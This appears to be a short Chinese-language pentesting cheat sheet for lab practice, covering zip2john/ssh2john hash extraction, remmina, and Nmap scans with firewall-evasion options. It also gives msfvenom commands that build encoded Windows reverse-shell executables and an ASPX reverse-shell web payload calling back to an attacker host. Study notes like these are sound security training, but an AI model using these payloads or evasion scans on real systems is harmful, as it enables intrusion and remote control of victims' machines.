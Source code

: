 >zip2john

```
zip2john
```

>ssh2john:

如果输出不规范，可以打开源码复制源码内容，源码比较规范

``````
ss2john <ssh私钥文件> > hash.txt
``````


### remmina
可以远程登录并控制Windows账户  
输入靶机IP  
然后用已有的账户密码登录  

### Nmap
``````
sudo nmap IP -p 21,22,25 -sA -Pn -n --disable-arp-ping --packet-trace 

sudo nmap -sSU -p 53 --script dns-nsid 10.129.2.48（测试过真正能用的）
以上语法中的“-sSU”选项表示进行UDP和TCP SYN扫描  

``````
>实例

以[NUMBER]的速率扫描
--min-rate [NUMBER]


通常，'-sV' 与 Nmap 一起使用来确定版本，但这并不总是足够的。在这种情况下，请尝试添加“-sC”来运行安全脚本，这是获取版本等内容的另一种好方法。


>规避防火墙
```
sudo nmap -sSU -p 53 --script dns-nsid 10.129.2.48

sudo nmap -Pn --min-rate 10000 --source-port 53  -sV 10.129.67.88 -n --disable-arp-ping
```


### msfvenom

列出payload：  
msfvenom -l payloads 

用法：  
msfvenom -p <payload> LHOST=<本地IP> LPORT=<监听端口> -f <文件类型> -o <文件名>

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.239.167 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f aspx -o  reverse-shell.aspx 


### wireshark
